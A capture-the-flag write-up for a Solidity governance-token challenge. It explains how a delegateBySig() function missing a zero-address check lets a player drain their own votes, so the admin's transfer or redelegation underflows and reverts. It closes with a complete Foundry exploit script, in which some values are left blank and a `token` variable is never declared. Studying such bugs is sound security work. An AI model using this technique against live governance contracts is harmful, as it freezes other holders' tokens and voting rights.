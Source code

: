 # FROZEN VOTING: Breaking Delegation

In this CTF challenge, we explore a vulnerability in a delegation function of governance token. This challenge demonstrates how the delegation functionality of the governance token can lead to a DoS attack.

## Challenge Overview

The challenge presents us with the following contents:
- Players receive a voting NFT with `NORMAL_POWER` (1e18) voting rights.
- The admin receives a voting NFT with `SUPER_POWER` (1000e18) voting rights.
- The admin delegates the voting power of their voting NFT to a player.
- The main goal is to cause revert the admin from transferring their voting NFT or redelegating its voting power to someone else.

## Initial Code Analysis

Let's examine the core mechanics and key components in detail.

## Delegation Logic
Whenever a voting NFT is transferred, delegated, or redelegated, the `_delegate()` function is always called. The `_moveDelegates()` function, which is called within `_delegate()`, subtracts the voting power from the previous delegatee (if there was one) and assigns it to the new delegatee.

```solidity
function _moveDelegates(address srcRep, address dstRep, uint256 amount) internal {
	if (srcRep != dstRep && amount > 0) {
	    if (srcRep != address(0)) {
	        uint256 srcRepNum = numCheckpoints[srcRep];
	        uint256 srcRepOld = srcRepNum > 0 ? checkpoints[srcRep][srcRepNum - 1].votes : 0;
	        uint256 srcRepNew = srcRepOld - amount; // this point
	        _writeCheckpoint(srcRep, srcRepNum, srcRepOld, srcRepNew);
	    }

	    if (dstRep != address(0)) {
	        uint256 dstRepNum = numCheckpoints[dstRep];
	        uint256 dstRepOld = dstRepNum > 0 ? checkpoints[dstRep][dstRepNum - 1].votes : 0;

	        uint256 dstRepNew = dstRepOld + amount;

	        _writeCheckpoint(dstRep, dstRepNum, dstRepOld, dstRepNew);
	    }
	}
}
```

From this, we can see that, in order to achieve our main goal of causing a DoS, we need to trigger an underflow when subtracting the delegatee’s voting power.

## Finding the Vulnerability

To trigger an underflow when subtracting delegated voting power, the player’s voting power must be less than `SUPER_POWER`. To find a path to achieve this, we analyzed other functions in the `VotingERC721` contract. As a result, we discovered that the `delegateBySig()` function behaves differently from the `delegate()` function, even though it is supposed to provide the same functionality.

```solidity
function delegate(address delegatee) public {
    if (delegatee == address(0)) delegatee = msg.sender;
    return _delegate(msg.sender, delegatee);
}
```

The `delegate()` function assigns `msg.sender` as the `delegatee` if `delegatee` is `address(0)`. However, in `delegateBySig()`, the `if (delegatee == address(0)) delegatee = msg.sender;` is missing.

When a player calls `delegateBySig()`, if `delegatee` is `address(0)`, the following happens in `_delegate()`:

1. In `_moveDelegates()`, `srcRep` is the player, so the player’s voting power is reduced.
2. In `_moveDelegates()`, `dstRep` is `address(0)`, meaning that no one’s voting power increases.

As a result, by repeating this process, we can decrease the player’s voting power to be less than `SUPER_POWER`.

## Complete Solution

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import "../src/Challenge.sol";

contract AttackScript is Script {
    Challenge public chall;
    address public challenge_address = ;
    uint256 public player_privatekey = ;

    function setUp() public {
        chall = new Challenge(challenge_address);
    }

    function run() public {
        vm.startBroadcast(player_privatekey);
        bytes32 domainSeparator = keccak256(
            abi.encode(token.DOMAIN_TYPEHASH(), keccak256(bytes(token.name())), block.chainid, address(token))
        );
        bytes32 structHash =
            keccak256(abi.encode(token.DELEGATION_TYPEHASH(), address(0), uint256(0), uint256(type(uint256).max)));
        bytes32 digest = keccak256(abi.encodePacked("\x19\x01", domainSeparator, structHash));
        (uint8 v, bytes32 r, bytes32 s) =
            vm.sign(player_privatekey, digest);

        token.delegateBySig(address(0), 0, type(uint256).max, v, r, s);

        domainSeparator = keccak256(
            abi.encode(token.DOMAIN_TYPEHASH(), keccak256(bytes(token.name())), block.chainid, address(token))
        );
        structHash =
            keccak256(abi.encode(token.DELEGATION_TYPEHASH(), address(0), uint256(1), uint256(type(uint256).max)));
        digest = keccak256(abi.encodePacked("\x19\x01", domainSeparator, structHash));
        (v, r, s) =
            vm.sign(player_privatekey, digest);

        token.delegateBySig(address(0), 1, type(uint256).max, v, r, s);

        console.log(chall.isSolved());
        vm.stopBroadcast();
    }
}
```